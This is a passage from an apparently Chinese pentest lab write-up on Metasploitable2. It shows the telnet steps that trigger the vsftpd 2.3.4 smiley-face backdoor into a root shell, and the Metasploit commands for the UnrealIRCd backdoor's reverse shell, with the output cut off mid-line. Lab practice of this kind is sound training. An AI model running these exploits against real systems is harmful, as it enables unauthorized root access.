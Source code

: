 然后发现php文件就存在了！！！233333膜鸡哥

## **metespolit2渗透**

这个还是挺简单的，用**服务：无意识的后门**

```
Metasploitable2 在21端口上运行着vsftpd服务，一个使用广泛的FTP服务。这个特别的版本包含一个后门允许一个未知的入侵者进入核心代码。这个后门很快就被确认并且移除。但是移除之前已经被少数人下载下来。如果在发送的用户名后面加上”：）“（笑脸符号），这个版本的后门会在6200端口上打开一个监听的shell。我们可以通过telnet确认或者通过metasploit上面的攻击模块自动攻击。

root@ubuntu:~

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &

220 (vsFTPd 2.3.4)

user backdoored:)

331 Please specify the password.

pass invalid

^]

telnet> quit

Connection closed.

root@ubuntu:~

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &

id;

uid=0(root) gid=0(root)

在Metasploitable2 的6667端口上运行着UnreaIRCD IRC的守护进程。这个版本包含一个后门-运行了几个月都没被注意到。通过在一个系统命令后面添加两个字母”AB“发送给被攻击服务器任意一个监听该端口来触发。metasploit上已经已经有攻击模块来获得一个交互的shell，请看下面列子。

msfconsole

msf > use exploit/unix/irc/unreal_ircd_3281_backdoor

msf  exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.99.131

msf  exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse double handler

[*] Connected to 192.168.99.131:6667…

    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname..

    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn&

```